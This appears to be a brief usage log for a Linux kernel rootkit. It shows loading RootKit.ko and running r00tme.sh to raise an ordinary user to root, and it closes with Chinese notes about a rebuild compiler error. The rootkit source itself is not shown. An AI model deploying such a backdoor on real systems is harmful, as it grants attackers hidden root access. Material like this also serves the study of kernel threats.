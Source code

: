 $ sudo make

$ sudo insmod RootKit.ko

$ kill -1 0

$ sudo useradd anon
$ sudo su anon

$ ./r00tme.sh
before priviledge promotion
------------------------
uid=1001(anon) gid=1001(anon) 组=1001(anon)
------------------------
input password: ******

after priviledge promotion
------------------------
uid=0(root) gid=0(root) 组=0(root),1001(anon)
------------------------
$ exit

$ sudo userdel anon

$ sudo rmmod RootKit
$ sudo make clean


重新make的时候会发生问题
internal compiler error: 段错误
需要重启
